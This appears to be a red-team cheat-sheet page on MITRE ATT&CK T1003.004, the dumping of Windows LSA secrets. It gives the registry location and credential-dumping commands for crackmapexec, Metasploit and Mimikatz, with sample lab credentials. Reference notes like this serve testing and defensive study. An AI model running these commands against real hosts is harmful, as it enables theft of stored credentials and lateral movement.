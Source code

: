 

# Description:

https://attack.mitre.org/techniques/T1003/004/

# LSA Secrets

**ATT\&CK ID:** [T1003.004](https://attack.mitre.org/techniques/T1003/004/)

**Permissions Required:** <mark style="color:red;">**SYSTEM**</mark>

**Description**

Adversaries with SYSTEM access to a host may attempt to access Local Security Authority (LSA) secrets, which can contain a variety of different credential materials, such as credentials for service accounts. LSA secrets are stored in the registry at `HKEY_LOCAL_MACHINE\SECURITY\Policy\Secrets`. LSA secrets can also be dumped from memory.

## Techniques

### Crackmapexec

```bash
crackmapexec smb '10.10.10.100' -u 'moe' -p 'Password123' --lsa
```

![](../../../Assets/Pasted%20image%2020250619221312.png)

### Metasploit

```bash
use post/windows/gather/lsa_secrets
```

![](../../../Assets/Pasted%20image%2020250619221319.png)

### Mimikatz

```powershell
Invoke-Mimikatz -Command '"token::elevate" "lsadump::secrets"'
```

![](../../../Assets/Pasted%20image%2020250619221325.png)

